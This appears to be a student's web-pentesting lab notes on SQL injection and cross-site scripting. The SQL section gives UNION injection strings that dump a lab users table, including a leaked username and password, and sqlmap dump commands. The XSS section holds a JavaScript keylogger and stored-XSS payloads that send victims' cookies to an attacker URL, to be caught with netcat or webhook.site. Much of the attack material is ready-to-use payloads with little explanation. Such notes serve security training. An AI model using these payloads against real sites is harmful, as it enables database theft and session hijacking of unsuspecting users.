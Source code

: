 - Using SQLmap for *cookie* header:
	- `sqlmap -r request.txt --level=2 --dump -T <table_name>`

## Lab 3
`x' or 1=1#`
`x' union select 1#`: no items returned
`x' union select 1,2,3,4#`: one item returned and number 2 is viewable; select query requires 4 items
`x' union select null,table_name,null,null from information_schema.tables#`: Leaked table name: **injection0x03_users**
`x' union select null,column_name,null,null from information_schema.columns where table_name = 'injection0x03_users'#`: Leaked column names: **username, password**
`x' union select null,username,null,null from injection0x03_users#`: Leaked username: **takeshi**
`x' union select null,password,null,null from injection0x03_users#`: Leaked password: **onigirigadaisuki**

Alternatively sqlmap can be used:
`sqlmap -r request.txt -T injection0x03_users --dump`

# XSS
#xss #cross_site_scripting
Run JavaScript in victim's browser
- first try HTML injection as that's more likely to work first e.g. `<h1>Hello!</h1>`
- Use [Firefox Multi-account container extension](https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/) to have tabs with separate instances of the website e.g. login account, cookies, etc. This is specially useful for stored xss attacks where with a separate container we can check if the uploaded payload has been stored.

## Reflected
#reflected_xss
`alert(1)`
`print()`
`prompt('1')`
https://portswigger.net/research/alert-is-dead-long-live-print

Key Logger #key_logger_javascript #javascript
```javascript
function keylog(event) { console.log(event.key) }
document.addEventListener('keydown', keylog)
```


## Stored
#stored_xss
### Lab 3 xss0x03
Attack:
`<script>fetch('http://<url>/'+encodeURI(document.cookie))</script>`
or
`<script>fetch('http://<url>/', { method: 'POST', body: encodeURI(document.cookie) });</script>`
or
`<script>var i=new Image;i.src="http://<url>/?"+document.cookie</script>`
Set up netcat locally or use https://webhook.site to receive the posted value.
!
## DOM-based
#dom_based_xss
if the input doesn't make any call backs to the server and only updates the DOM, the attack will be DOM-based
